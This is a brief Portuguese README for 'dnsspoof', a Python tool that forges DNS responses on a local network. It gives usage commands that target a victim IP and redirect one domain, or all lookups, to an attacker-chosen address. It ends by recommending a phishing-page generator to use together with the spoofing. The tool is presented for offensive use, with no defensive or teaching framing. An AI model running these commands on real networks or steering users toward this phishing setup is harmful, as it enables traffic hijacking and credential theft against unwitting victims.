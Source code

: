 dnsspoof
========

Falsificador de DNS. Descarta as respostas DNS antes que elas cheguem ao roteador e as substitui pela resposta DNS falsificada.

Usage
------

```shell
python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -d domaintospoof.com
```

Falsificar domaintospoof.com para apontar de volta para a máquina do ataque.


```shell
python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -a -t 80.87.128.67
```

Falsifique todas as solicitações de pesquisa de DNS para apontar para 80.87.128.67 (stallman.org). Também é possível usar a opção -t com a opção -d para redirecionar apenas um domínio específico para um IP específico, em vez de redirecionar aquele


Recomendo o uso do pyphisher '''https://github.com/Jeanpseven/pyphisher''' para criar páginas de phishing e o usar no DNS Spoofing


danmcinerney.org
modificado por Wrench
